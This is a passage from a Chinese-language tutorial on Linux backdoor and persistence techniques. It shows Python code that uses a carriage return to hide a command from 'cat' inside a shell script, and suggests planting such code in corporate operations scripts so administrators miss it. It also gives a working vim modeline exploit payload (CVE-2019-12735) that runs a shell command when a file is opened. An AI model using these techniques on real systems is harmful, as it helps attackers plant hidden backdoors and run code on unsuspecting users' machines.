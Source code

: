 ### 0x06 Cat 隐藏

刚刚在 cron 里面提到了 cat 的一个缺陷，可以利用这个缺陷隐藏恶意命令在一些脚本中：这里的示例我就用 hiding-from-cats 里的例子吧。之所以单列出来，个人认为在一些大型企业的运维工具脚本中可以插入恶意代码，利用 cat 的缺陷还可以使管理员无法发现脚本被做手脚。

cat 其实默认使用是支持一些比如 \\r 回车符 \\n 换行符 \\f 换页符、也就是这些符号导致的能够隐藏命令。

使用 python 生成带有换行符的内容 sh：

```
cmd\_h = "echo 'You forgot to check \`cat -A\`!' > oops" # hidden
cmd\_v = "echo 'Hello world!'"                         # visible

with open("test.sh", "w") as f:
output = "#!/bin/sh\\n"
output += cmd\_h + ";" + cmd\_v + " #\\r" + cmd\_v + " " \* (len(cmd\_h) + 3) + "\\n"
f.write(output)


```

使用 py 生成了一个 test.sh 脚本，同目录下只有他本文件，cat 查看一下：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220616509-925341340.png)

执行一下 test.sh：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220738695-372605639.png)

cat -A 再次查看一下：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220835294-1217326615.png)

其实可以看出来这样就做到了恶意命令隐藏的效果。其实之前 Cron 后门中的隐藏方法就是利用了这个。如果使用 cat -A 查看 root 文件的话就可以看到计划任务的真正内容了。

### 0x07 Vim 后门

#### vim modeline(CVE-2019-12735)

该漏洞存在于编辑器的 modeline 功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当 vim 打开一个包含了 vim modeline 注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim 默认关闭 modeline。



开启命令：

```
vim ~/.vimrc
set modeline


```

当前目录下创建文件：

```
echo ':!uname -a||" vi:fen:fdm=expr:fde=assert\_fails("source\\!\\ \\%"):fdl=0:fdt="' > hello.txt
vim hello.txt


```
